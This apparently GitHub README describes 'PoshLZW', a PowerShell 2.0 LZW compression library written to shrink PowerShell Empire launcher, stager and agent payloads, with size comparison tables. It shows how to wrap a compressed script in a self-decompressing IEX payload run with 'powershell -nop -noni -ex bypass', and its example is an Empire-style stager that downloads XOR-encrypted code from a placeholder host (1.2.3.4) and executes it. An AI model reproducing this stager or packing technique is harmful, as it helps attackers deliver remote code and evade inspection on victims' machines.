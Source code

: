 License
-------

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
                    Version 2, December 2004 
Copyright (C) 2004 Sam Hocevar <sam@hocevar.net> 
Everyone is permitted to copy and distribute verbatim or modified 
copies of this license document, and changing it is allowed as long 
as the name is changed. 
           DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
 TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION 

0. You just DO WHAT THE FUCK YOU WANT TO.


Powershell developper ?
-----------------------
I'm far away from a real Powershell developper, so be free to propose improvements and code size reduction tricks.


PoshLZW
--------
`PowerShell LZW` is a LZW compression/decompression library for Powershell 2.0


Powershell 2.0 ?
----------------
By default, if you wanna have compatility you'll have to use v2.0, as it's the case for PowerShell Empire.


iCodingSize !!?
---------------
LZW work by building a ephemeral dictionnary, feeded then by following bytes. The main idea is to encode bytes not on 8-bits but on iCodingSize-bits (9 to 15).
Why min at 9 ? 'cause less would mean size growth.
Why max at 15 ? Well... why not ;-)
So for example, 4-bytes can be encoded only on 9 bits (if you choose a
iCodingSize value of 9 and if it's in the dictionnary).
This value is also the maximum size of the dictionnary : 2^iCodingSize-1
It's stored in the output at index 0, encoded on 8-bits (a normal byte).


Five functions
---------------
Five Long functions :
 - Bits-Shift : a simple bits shifting function that don't fucking exists in Powershell 2 !!?
 - Bits-Read : read n-bits from an array of Bytes, at a certain position
 - Bits-Write : write n-bits to an array of Bytes, at a certain position
 - LZWCompress : Compress
 - LZWDecompress : Decompress

These too long functions have been manually shortened to save space:
 - bs (for Bits-Shift), 62 bytes long
 - br (for Bits-Read), 225 bytes long
 - bw (for Bits-Write), 247 bytes long
 - lzwc (for LZWCompress), 395 bytes long
 - lzwd (for LZWDecompress), 345 bytes long

Could certainly be optimized ;-)


Powershell script intended to be executed
-----------------------------------------
To use LZW it's simple :
1/ Declare functions (or import-module PoshLZW.ps1)
  PS> $m_=[math];
  PS> function bs{...
  PS> function bw{...
  PS> function lzwc{...

2/ compress your powershell script :
  PS> $MyScript = "write-host 'Hello World';";
  PS> $lz = lzwc $MyScript 10;

3/ encode the compressed script in base64
  PS> $lz64 = [convert]::ToBase64String($lz);

4/ Build the payload with the overhead :
  PS> $payload = '$m_=[math];';
  PS> $payload+= 'function bs{...' + 'function br{...' + 'function lzwd{...';
  PS> $payload+= 'IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lz64+'"))))';

Then you can execute the payload with #>powershell -nop -noni -ex bypass -c here-the-payload
But take care about the command line size ;-)


Good rate ?
----------------
Here you'll find a comparison table of different payloads.
Text : normal ps1 file/payload, without optimisation
H : overhead of 701 bytes (LZWDecompress, Bits-Read, Bits-Shift and IEX)
9-15 : iCodingSize, meaning encoding size in bits and also dictionnary size
A way to use compression could be to run "powershell -c H+B64(LZW(T,9))"
 
|                      | Launcher | Stager |  Agent  |
|----------------------|----------|--------|---------|
|       Text as T      |   418    |  4 909 |  44 041 |
| B64(T)     | 1 116    | 13 092 | 117 444 |
|           LZW(T,9)   |   387    |  3 740 |  27 878 |
|     H+B64(LZW(T,9)   | 2 051    | 13 877 |  97 516 |
| B64(H+B64(LZW(T,9))  | 5 472    | 37 008 | 260 044 |
|           LZW(T,10)  |   426    |  3 260 |  24 934 |
|     H+B64(LZW(T,10)  | 2 112    | 12 127 |  85 885 |
| B64(H+B64(LZW(T,10)) | 5 632    | 32 340 | 229 028 |
|           LZW(T,11)  |   469    |  3 145 |  20 474 |
|     H+B64(LZW(T,11)  | 2 261    |*11 576*|  72 444 |
| B64(H+B64(LZW(T,11)) | 6 032    | 30 872 | 193 184 |
|           LZW(T,12)  |   511    |  3 373 |  18 312 |
|     H+B64(LZW(T,12)  | 2 237    | 11 600 |  63 583 |
| B64(H+B64(LZW(T,12)) | 5 968    | 30 936 | 169 556 |
|           LZW(T,13)  |   554    |  3 654 |  16 589 |
|     H+B64(LZW(T,13)  | 2 426    | 12 788 | *58 306*|
| B64(H+B64(LZW(T,13)) | 6 472    | 34 104 | 155 484 |
|           LZW(T,14)  |   596    |  3 935 |  17 545 |
|     H+B64(LZW(T,14)  | 2 481    | 13 243 |  59 852 |
| B64(H+B64(LZW(T,14)) | 6 616    | 35 316 | 159 608 |
|           LZW(T,15)  |   639    |  4 216 |  18 798 |
|     H+B64(LZW(T,15)  | 2 611    | 13 944 |  63 437 |
| B64(H+B64(LZW(T,15)) | 6 964    | 37 184 | 169 168 |



Example
-------

Stats
    $ PS > $text = '$Wc=NEW-ObjEcT SYStEM.Net.WEBCliENT;$u="Test/5.0 (Windows NT 5.1; Trident/1.0;) like Gecko";$wc.HeADerS.ADD("User-Agent",$u);$wc.ProXY = [SYSTem.Net.WEBREQuEsT]::DEFAulTWebPROXY;$WC.PRoxy.CReDEnTIaLS = [SYStEM.NET.CRedEnTiALCACHe]::DEFAulTNetwORKCredenTiaLs;$K="aaaaaaaabbbbbbbbcccccccceeeeeeee";$I=0;[chAr[]]$b=([CHAr[]]($wC.DowNlOaDSTRing("http://1.2.3.4:80/index.asp")))|%{$_-BXoR$k[$i++%$k.LeNgTH]};IEX ($B-jOIn"")';
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("stager.ps1"));
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("agent.ps1"));
    $ PS > write-host "|                 Text   |" $text.length
    $ PS > write-host "|             B64(Text)  |" ([Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))).length
    $ PS > foreach ($i in 9..15){
    $ PS > 	$lzw = lzwc $text $i;
    $ PS > 	write-host "|           LZW(T,$i)  |" $lzw.length;
    $ PS > 	$64lzw = [convert]::ToBase64String($lzw);
    $ PS > 	$overhead='$m_=[math];function bs{param($v,$s)return $m_::Floor($v*$m_::Pow(2,-$s))}function br{param($o,$c,$a)$p=$i=$e=0;$j=$m_::floor(($t=$a.value)*$c/8);$s=($r=8-(($t*$c)%8))-$c;$b=$m_::Pow(2,$c)-1;while($e-lt$c){$p=$p-bor((bs $o[$j+$i] $s)-band$b);$e+=$r;$r=$m_::max($r,8);$s+=8;$i++}$a.value++;return $p}';
    $ PS > function lzwd{param($p)$a=$j=0;$v=@();$e=$o="";$c=$p[0];$p=$p[1..$p.length];foreach($i in 0..255){$v+=[string]([char]$i)}$o+=($w=[string]$v[($j=br $p $c ([ref]$a))]);while([math]::floor($a*$c/8)-lt($p.length-1)){$l=$v.count;$j=br $p $c ([ref]$a);$o+=$v[$j];if($j-lt$l){$e=[string]$v[$j]}elseif($j-eq$l){$e=$w+$w[0]}$v+=$w+$e[0];$w=$e}return $o;}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lzw+'"))))';
    $ PS > 	write-host "|     H+B64(LZW(T,$i)  |" $overhead.length;
    $ PS > 	$b64hz = [convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($overhead));
    $ PS > 	write-host "| B64(H+B64(LZW(T,$i)) |" $b64hz.length;
    $ PS > }

Last word ?
-----------

         ///\\\  ( Have Fun )
        ( ^  ^ ) /
      __(  __  )__
     / _ `----' _ \
     \__\   _   |__\
      (..) _| _ (..)
       |____(___|     Mynameisv_ 2016
_ __ _ (____)____) _ _________________________________ _'